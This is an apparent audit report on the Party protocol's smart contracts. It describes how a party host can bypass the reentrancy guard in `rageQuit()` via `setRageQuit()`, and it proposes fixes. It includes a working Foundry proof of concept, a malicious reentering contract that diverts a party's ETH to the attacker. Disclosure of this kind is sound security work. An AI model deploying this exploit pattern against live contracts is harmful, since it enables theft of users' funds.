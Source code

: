 # Reentrancy guard in `rageQuit()` can be bypassed

The reentrancy guard present in the `rageQuit()` function can be bypassed by host accounts, leading to reentrancy attack vectors and loss of funds.

## Impact

The new `rageQuit()` function can be used by party members to exit their position and obtain their share of the tokens held by the party contract. In order to prevent function reentrancy while sending ETH or transferring ERC20 tokens, the implementation reuses the `rageQuitTimestamp` variable as a guard to check if the function is being called again while executing.

https://github.com/code-423n4/2023-05-party/blob/main/contracts/party/PartyGovernanceNFT.sol#L293-L353

```solidity
293:     function rageQuit(
294:         uint256[] calldata tokenIds,
295:         IERC20[] calldata withdrawTokens,
296:         address receiver
297:     ) external {
298:         // Check if ragequit is allowed.
299:         uint40 currentRageQuitTimestamp = rageQuitTimestamp;
300:         if (currentRageQuitTimestamp != ENABLE_RAGEQUIT_PERMANENTLY) {
301:             if (
302:                 currentRageQuitTimestamp == DISABLE_RAGEQUIT_PERMANENTLY ||
303:                 currentRageQuitTimestamp < block.timestamp
304:             ) {
305:                 revert CannotRageQuitError(currentRageQuitTimestamp);
306:             }
307:         }
308: 
309:         // Used as a reentrancy guard. Will be updated back after ragequit.
310:         delete rageQuitTimestamp;
             
             ...
             
349:         // Update ragequit timestamp back to before.
350:         rageQuitTimestamp = currentRageQuitTimestamp;
351: 
352:         emit RageQuit(tokenIds, withdrawTokens, receiver);
353:     }
```

The implementation deletes the value of `rageQuitTimestamp` (which sets it to zero) in line 310. The intention is to use this variable to prevent reentrancy, as setting it to zero will block any call due to the check in line 303, `block.timestamp` will be greater than zero and will lead to the revert in line 305. After NFTs are burned and tokens are transferred, the function restores the original value in line 350.

This reentrancy guard can still be bypassed using `setRageQuit()`. If execution control is transferred to the attacker, then the attacker can call `setRageQuit()` to reset the value to anything greater than `block.timestamp`, allowing the reentrancy on the `rageQuit()` function. Note that this would require the attacker to be a party host or be in complicity with a party host.

The general scenario to trigger the reentrancy is as follows:

1. User calls `rageQuit()`.
2. ETH or ERC20 transfers control to the attacker. This can be in different forms:
   - ETH transfers to contracts that invoke the `receive()` or `fallback()` function.
   - Variations of the ERC20 tokens that have callbacks during transfers (e.g. ERC777)
   - Poisoned ERC20 implementation that receives control during the `transfer()` call itself.
3. Attacker resets the `rageQuitTimestamp` by calling `setRageQuit(block.timestamp + 1)`.
4. Attacker reenters the `rageQuit()` function.

The issue can be exploited to disable the reentrancy guard in the `rageQuit()` function, leading to further attacks. We will explore a scenario of potential loss of funds in the next section.

## Proof of Concept

The following is an adaptation of the test `testRageQuit_cannotReenter()` present in the PartyGovernanceNFT.t.sol test suite, with minimal variations to enable the described attack.

Note: the snippet shows only the relevant code for the test. Full test file can be found [here](https://gist.github.com/romeroadrian/9a9868c7c3f540811eff6853db14bfc6).

```solidity
function test_PartyGovernanceNFT_ReentrancyAttack() external {
   address alice = makeAddr("alice");
   address host = makeAddr("host");

   (Party party, , ) = partyAdmin.createParty(
      partyImpl,
      PartyAdmin.PartyCreationMinimalOptions({
            host1: address(this),
            host2: host,
            passThresholdBps: 5100,
            totalVotingPower: 100,
            preciousTokenAddress: address(toadz),
            preciousTokenId: 1,
            rageQuitTimestamp: 0,
            feeBps: 0,
            feeRecipient: payable(0)
      })
   );

   vm.prank(address(this));
   party.setRageQuit(uint40(block.timestamp) + 1);

   // Mint voting NFTs, alice and host have both 50%
   vm.prank(address(partyAdmin));
   uint256 aliceTokenId = party.mint(alice, 50, alice);
   vm.prank(address(partyAdmin));
   uint256 hostTokenId = party.mint(host, 50, host);

   // Host (attacker) deploys malicious ReenteringContract
   ReenteringContract reenteringContract = new ReenteringContract(party, hostTokenId, host);

   // Host sends his NFT to the contract
   vm.prank(host);
   party.transferFrom(host, address(reenteringContract), hostTokenId);

   // Host transfer host feature to contract
   vm.prank(host);
   party.abdicateHost(address(reenteringContract));

   // Simulate there is 1 ETH in the party
   vm.deal(address(party), 1 ether);

   // Alice decides to rage quit

   IERC20[] memory tokens = new IERC20[](2);
   tokens[0] = IERC20(address(reenteringContract));
   tokens[1] = IERC20(ETH_ADDRESS);

   uint256[] memory tokenIds = new uint256[](1);
   tokenIds[0] = aliceTokenId;

   vm.prank(alice);
   party.rageQuit(tokenIds, tokens, alice);

   // Alice has 0 ETH while the host (attacker) has all the funds
   assertEq(alice.balance, 0);
   assertEq(host.balance, 1 ether);
}

contract ReenteringContract is ERC721Receiver {
    Party party;
    uint256 tokenId;
    address attacker;

    constructor(Party _party, uint256 _tokenId, address _attacker) {
        party = _party;
        tokenId = _tokenId;
        attacker = _attacker;
    }

    function balanceOf(address) external returns (uint256) {
        return 1337;
    }

    function transfer(address, uint256) external returns (bool) {
        // Disable reentrancy guard
        party.setRageQuit(uint40(block.timestamp + 1));

        // Return host to attacker
        party.abdicateHost(attacker);

        // Execute attack
        IERC20[] memory tokens = new IERC20[](1);
        tokens[0] = IERC20(0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE);
        uint256[] memory tokenIds = new uint256[](1);
        tokenIds[0] = tokenId;
        party.rageQuit(tokenIds, tokens, address(this));
        return true;
    }

    fallback() external payable {
        // sends funds to attacker
        payable(attacker).transfer(address(this).balance);
    }
}
```

## Recommendation

Implement a reentrancy guard using a dedicated variable that acts as the flag, such as the one available in the [OpenZeppelin contracts library](https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard).

Alternatively, if the intention is to reuse the same `rageQuitTimestamp` variable, set it temporarily to  `DISABLE_RAGEQUIT_PERMANENTLY` instead of zero. This will prevent calling `setRageQuit()` to reset the `rageQuitTimestamp` variable while also blocking calls to `rageQuit()`.
